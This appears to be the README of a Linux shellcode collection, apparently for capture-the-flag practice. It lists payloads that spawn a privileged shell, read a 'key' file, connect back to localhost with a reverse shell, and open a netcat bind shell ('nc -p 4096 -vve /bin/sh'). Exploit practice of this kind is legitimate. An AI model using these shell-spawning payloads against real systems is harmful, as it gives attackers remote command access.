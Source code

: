 shellcodes-linux
================


**bash.asm**
execve("/bin/bash", ["/bin/bash", "-p"], NULL);

**sh.asm**
execve("/bin/sh", ["/bin/sh"], NULL);

**cat.asm**
execve("/bin/cat", ["/bin/cat", "key"], NULL);

**cat_syscall.asm**
cat "key", with read()/write() syscalls

**connectback.asm**
connect back to 127.0.0.1:4096 + execve "/bin/sh"

**connectback_ipv6.asm**
connect back to [::1]:4096 + execve "/bin/sh"

**ls_syscall.asm**
list "." directory with getdents() syscall

**nc.asm**
execve("/bin/nc", "/bin/nc", "-p", "4096", "-vve", "/bin/sh");
